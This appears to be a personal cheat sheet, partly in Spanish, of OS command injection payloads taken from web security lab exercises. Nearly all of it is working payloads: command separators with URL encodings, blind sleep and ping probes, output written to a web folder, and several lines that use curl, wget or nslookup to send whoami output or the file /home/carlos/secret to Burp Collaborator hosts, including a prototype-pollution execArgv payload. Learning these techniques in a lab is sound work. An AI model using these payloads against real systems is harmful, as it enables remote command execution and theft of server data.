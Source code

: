 Lo que ya sabemos ejecución de comandos linux, windows. etc como inyección. 

Simple

```
|| -- %7C%7C -- double %257C%257C
; -- %3B -- Double %253B
&& -- %26%26 -- double %2526%2526
& 
|
EN LINUX: ox0a o \n

& ping -c 10 127.0.0.1 &


```

Blind

```
test%40test.com||sleep+5||
test%40test.com||ping+-c+5||
```

Write commands in accesible folder: /var/www/images/

```
whoami > /var/www/images/
https://0a2f008a032675868187b28600ba00d0.web-security-academy.net/image?filename=test.txt

* POST de feedback/submit - es lo mismo de arriba pero bien estructurado - attack
email=||whoami>/var/www/images/output.txt||&
* POST de feedback/submit 
||nslookup+whoami.BURP-COLLABORATOR.com||
```

Exifltrate data with out of band

```
||curl+`whoami`.00y7e29ks339nxuskhes4q429tfk3br0.oastify.com||
```

Exifltrate Data like a pro

```
"``/usr/bin/wget --post-file /home/carlos/secret https://y54nvieai2tvgmz11xb2hj1pkgq9e12q.oastify.com``"

CommonsCollections7 'curl --data @/home/carlos/secret <your burp collaborator address>'

```

## Remote Command Execution 

> Remote code execution via server-side prototype pollution

```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```

> XML and OS Command execution

```
<email>user16@exploit-server.net||$(curl $(cat /home/carlos/secret).COLLABORATOR.com)||</email>
```

> BASH os command execution

```shell
email=carlos@exam.net||curl+`whoami`.COLLABORATOR.net||
```

```
||$(curl $(cat /home/carlos/secret).COLLABORATOR.com)||
```

